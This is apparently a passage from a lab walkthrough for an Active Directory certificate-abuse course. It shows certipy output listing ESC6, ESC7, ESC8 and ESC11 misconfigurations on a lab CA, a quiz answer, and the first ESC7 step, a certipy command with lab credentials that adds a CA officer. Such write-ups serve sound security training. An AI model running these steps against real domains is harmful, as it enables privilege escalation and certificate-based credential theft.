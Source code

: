 ```shell-session
        ManageCa                        : LAB.LOCAL\Black Wasp
                                          LAB.LOCAL\James
                                          LAB.LOCAL\user_manageCA
                                          LAB.LOCAL\Juanmy
                                          LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrators
        ManageCertificates              : LAB.LOCAL\Josy
                                          LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrators
    [!] Vulnerabilities
      ESC6                              : Enrollees can specify SAN and Request Disposition is set to Issue. Does not work after May 2022
      ESC7                              : 'LAB.LOCAL\\Black Wasp' has dangerous permissions
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
      ESC11                             : Encryption is not enforced for ICPR requests and Request Disposition is set to Issue
<SNIP>
```

Answer: `Juanmy`

## ESC7

### Question 3

#### "Abuse the ESC7 misconfiguration and steal the NT hash of the account Josy"

By analyzing the output from the `certipy` `find` command used in the previous question, students have learned that the user `blwasp` possesses dangerous permissions over the CA, rendering it vulnerable to `ESC7`. Consequently, they need to use the `ca` command of `certipy` to grant `ManageCertificates` rights to the user, specifying the `blwasp` user for the `-add-officer` option:

Code: shell

```shell
certipy ca -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -add-officer blwasp
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy ca -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -add-officer blwasp

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'blwasp' on 'lab-LAB-DC-CA'
```

Additionally, when using the `find` command of `certipy` along with the `-enabled` option, students will discover that the built-in template `SubCA`, which is vulnerable to `ESC1` by default (and allows `Client Authentication`), is enabled:
